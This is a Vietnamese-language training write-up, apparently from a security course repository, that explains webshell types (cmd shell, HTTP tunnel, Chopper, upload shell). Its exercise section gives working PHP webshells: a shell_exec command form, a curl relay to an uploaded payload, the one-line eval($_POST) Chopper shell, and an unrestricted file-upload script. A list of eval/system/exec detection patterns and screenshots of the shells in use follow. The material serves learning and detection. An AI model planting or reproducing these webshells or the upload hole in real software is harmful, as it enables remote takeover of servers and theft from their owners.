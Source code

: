 # Lý thuyết

1. Webshell

- Webshell là một loại phần mềm độc hại được sử dụng để kiểm soát máy tính nạn nhân qua các dòng lệnh, được viết bằng các ngôn ngữ như PHP, ASP, JSP, Perl, Python, và Ruby. Webshell cho phép kẻ tấn công thực hiện một số hành động như thêm, xóa, sửa đổi tệp, thực thi mã độc hại, thu thập thông tin nạn nhân và có thể kiểm soát máy nạn nhân.

- Khi máy chủ đã bị nhiễm webshell, kẻ tấn công sẽ truy cập vào máy nạn nhân từ xa qua trình duyệt web hoặc các công cụ quản lý tệp.

2. Các loại webshell

2.1. Cmd shell

- Cmd shell là một loại webshell có khả năng thực thi các dòng lệnh thông qua giao diện dòng lệnh của hệ điều hành(thường dùng hàm shell_exec).

2.2. Http tunnel

- HTTP Tunnel là một loại webshell đặc biệt sử dụng giao thức HTTP để truyền tải các lệnh từ kẻ tấn công đến máy chủ và nhận kết quả trả về thông qua các yêu cầu HTTP. Đây là một loại webshell có khả năng vượt qua các giới hạn về tường lửa hoặc các cơ chế an ninh mạng chặn các kết nối bất thường.

2.3. Chooper

- Chooper cho phép tấn công, thực hiện các hoạt động độc hại và kiểm soát từ xa các hệ thống mà đã được xâm nhập. Chooper có kích thước nhỏ nên khó phát hiện.

2.4. Upload shell

- Upload shell là một kỹ thuật tấn công trong đó kẻ tấn công tải lên một webshell (một đoạn mã độc) lên máy chủ mục tiêu thông qua tính năng tải file của một ứng dụng web. Khi webshell được tải lên thành công và thực thi, nó cho phép kẻ tấn công điều khiển máy chủ từ xa, thực hiện các lệnh hệ thống, truy cập file, hoặc cài đặt phần mềm độc hại.

# Bài tập

1. Cmd shell

```
<?php
if (isset($_POST['cmd'])) {
    $command = $_POST['cmd'];
    $output = shell_exec($command);
    echo "<pre>$output</pre>";
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>PHP CmdShell</title>
</head>
<body>
    <form method="POST">
        <label for="cmd">Nhập lệnh shell:</label><br>
        <input type="text" name="cmd" id="cmd" required><br>
        <input type="submit" value="Thực thi">
    </form>
</body>
</html>
```

2. Http Tunnel

- Webshell

```
<?php
if (isset($_POST['cmd'])) {
    $command = $_POST['cmd'];
    $output = shell_exec($command);
    echo "<pre>$output</pre>";
}
?>
```

- Server

```
<?php
$url = 'http://localhost/Challenge10-AnhNT/uploads/teacher/Payload.php';
$command = $_POST['cmd'];
$data = [
    'cmd' => $command,
];
$ch = curl_init($url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_POSTFIELDS, $data);
$response = curl_exec($ch);
curl_close($ch);
echo $response;
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>PHP CmdShell</title>
</head>
<body>
    <form method="POST">
        <label for="cmd">Nhập lệnh shell:</label><br>
        <input type="text" name="cmd" id="cmd" required><br>
        <input type="submit" value="Thực thi">
    </form>
</body>
</html>
```

3. Chooper

```
<?php @eval($_POST['shell']);?>
```

4. Upload shell

```
<?php
if($_SERVER['REQUEST_METHOD'] === 'POST'){
    $targetDir = 'upload';
    $targetFile = $targetDir . basename($_FILES['userfile']['name']);

    if(move_uploaded_file($_FILES['userfile']['tmp_name'], $targetFile)){
        header("Location: $targetFile");
        exit;
    }
}
?>
<form enctype="multipart/form-data" action="" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="100000">
    Send this file: <input name="userfile" type="file">
    <input type="submit" value="Send">
</form>
```

# Các pattern

1. File PHP
- eval(): webshell eval thực thi lệnh do hacker truyền vào qua các biến trong request. Ví dụ <?php eval($_GET('a')); ?>.
    - eval($_GET('string')); eval($_POST('string')); eval($_REQUEST('string'))
    - eval(encode string)
    - eval('response = '+response+';').
    - eval('$string = '.$string. ';').
    - eval($filter) (bắt từ chuỗi simpleEval($filter)).
    - 'Eval(&$item, &$dataType)', 'Eval($item[$key], $dataType)', 'Eval($value)','Eval($filters, $dataType)'
- $recursive0($params, $level+1)', '$recursive0($params)'
- exec ('sassc -t compressed -I '.$cwd.$bootstrapPath.' -I '.$cwd.portal()
- System()
    - system('/u01/colombo/usr/bin/php -c /u01/colombo/etc/php.ini /u01/colombo/www/crontab/runService.php 59721 Education.CourseResult.Exam.autoMarkExamAll')
    - system("perl ./api/syslog-send.pl \"Syslog filter for ".$fil["mf_log"]." updated by".read_session('SesAccount')."\"");
- curl_exec($ch)
- exec("ifconfig | grep -Eo 'inet (addr:)'
- $class(sfContext::getInstance()
2. Trường hợp file aspx, asp, cs
- eval() Thực thi lệnh truyền vào từ request. Dữ liệu được lấy từ request bằng cách Request.Item['a']
    - eval("DATE_DEBIT")
    - eval(Container.DataItem, "CategoryName")
    - eval("CreatTime", "{0:dd/MM/yyyy (HH:mm:ss),
    - eval("AMT_PAY","{0:#,##0}")  

# Demo

- Cmdshell

    - Sau khi upload webshell lên máy chủ, truy cập vào đường dẫn chứa webshell và gõ lệnh muốn dùng.
 
    <img src = 'https://github.com/NTA06012004/BC-training/blob/main/Week%2012/File%20PNG/1.png'>

- Http tunnel

    - Sau khi upload webshell lên máy chủ, ở phía server gõ lệnh muốn dùng.
 
    <img src = 'https://github.com/NTA06012004/BC-training/blob/main/Week%2012/File%20PNG/2.png'> 
